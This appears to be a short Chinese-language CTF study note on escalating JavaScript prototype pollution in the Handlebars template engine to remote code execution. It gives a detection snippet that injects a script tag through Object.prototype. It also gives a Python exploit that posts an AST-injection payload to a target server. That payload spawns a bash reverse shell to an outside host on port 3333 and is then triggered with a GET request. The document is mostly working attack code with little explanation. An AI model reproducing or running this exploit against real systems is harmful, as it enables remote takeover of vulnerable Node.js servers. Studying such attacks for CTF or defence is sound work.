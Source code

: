 tags:: [[CTF/JS/原型链污染]]

- # 原型链污染到RCE
	- 检测是否存在：
		- ```js
		  const Handlebars = require('handlebars');
		  
		  Object.prototype.pendingContent = `<script>alert(origin)</script>`
		  
		  const source = `Hello {{ msg }}`;
		  const template = Handlebars.compile(source);
		  
		  console.log(template({"msg": "posix"})); // <script>alert(origin)</script>Hello posix
		  ```
	- ```python
	  import requests
	  
	  TARGET_URL = 'http://p6.is:3000'
	  
	  # make pollution
	  requests.post(TARGET_URL + '/vulnerable', json = {
	      "__proto__.type": "Program",
	      "__proto__.body": [{
	          "type": "MustacheStatement",
	          "path": 0,
	          "params": [{
	              "type": "NumberLiteral",
	              "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
	          }],
	          "loc": {
	              "start": 0,
	              "end": 0
	          }
	      }]
	  })
	  
	  # execute
	  requests.get(TARGET_URL)
	  ```
	- [参考](https://po6ix.github.io/AST-Injection/#Example)
